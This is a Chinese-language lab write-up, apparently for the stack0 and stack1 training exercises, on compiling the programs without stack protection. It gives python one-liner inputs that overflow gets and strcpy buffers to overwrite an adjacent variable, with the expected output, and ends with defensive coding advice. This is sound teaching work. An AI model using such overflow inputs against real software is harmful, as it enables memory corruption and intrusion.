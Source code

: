 # <center>栈溢出实验1</center>

## 实验概述

### 【目的】
1. 通过-fno-stack-protector和-m32参数从gcc编译stack0.c文件。
2. 运行编译后的程序，通过缓冲区溢出修改与字符串数组相邻的变量，得到输出"you have changed the 'modified' variable"
3. 运行stack1程序，通过栈溢出得到输出"you have correctly got the variable to the right value"
### 【环境】
Linux
### 【工具】
gcc，python，IDA pro，binwalk
### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。
## 实验步骤

### 【步骤】
#### stack0
打开shell，使用-fno-stack-protector参数编译stack0。
```sh
$ gcc stack0.c -o stack0 -fno-stack-protector -m32
stack0.c: In function ‘main’:
stack0.c:11:3: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
   gets(buffer);
   ^
/tmp/ccccxHmM.o: In function `main':
stack0.c:(.text+0x23): warning: the `gets' function is dangerous and should not be used.
```
观察源代码，发现buffer数组与modified变量相邻，要使modified变量不等于0，才能得到输出"you have changed the 'modified' variable"
因为有gets()函数，我们可以向栈上不加限制的写入任意长度的数据，当输入数据大于64时，便发生了溢出，输入数据只要够大，就一定能覆盖到modifiel变量。

这里我们使用python简化输入，免去手打一大堆字符的麻烦。
```sh
$ python -c "print 'A'*65" | ./stack0
you have changed the 'modified' variable
Segmentation fault (core dumped)
```

#### stack1
用binwalk分析程序结构。
```
$ binwalk stack1

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```
发现是32位程序，直接拖进idaq.exe，定位到main函数，按F5生成伪代码。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest; // [sp+0h] [bp-4Ch]@3
  int v5; // [sp+40h] [bp-Ch]@3
  int *v6; // [sp+48h] [bp-4h]@1

  v6 = &argc;
  if ( argc == 1 )
    errx(1, "please specify an argument\n");
  v5 = 0;
  strcpy(&dest, argv[1]);
  if ( v5 == 'abcd' )
    puts("you have correctly got the variable to the right value");
  else
    printf("Try again, you got 0x%08x\n", v5);
  return 0;
}
```
可以看到这里把作为参数的字符串复制到了变量dest上：`strcpy(&dest, argv[1]);`
那么我们在运行程序时给出超过dest字符数组长度的参数即可发生溢出，这里我们需要覆盖v5等于`"abcd"`。
经过计算，有：
```
$ python -c "print 'A'*64+'\x64\x63\x62\x61'" | xargs ./stack1
you have correctly got the variable to the right value

```
这里的 xargs 表示输入数据作为参数。


### 【总结】

本次实验主要体验Linux环境下栈溢出的发生场景，并尝试通过栈溢出覆盖（修改）相邻的变量，达到改变程序执行流的目的。
可以发现，要使栈溢出发生，要满足以下条件：


- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。

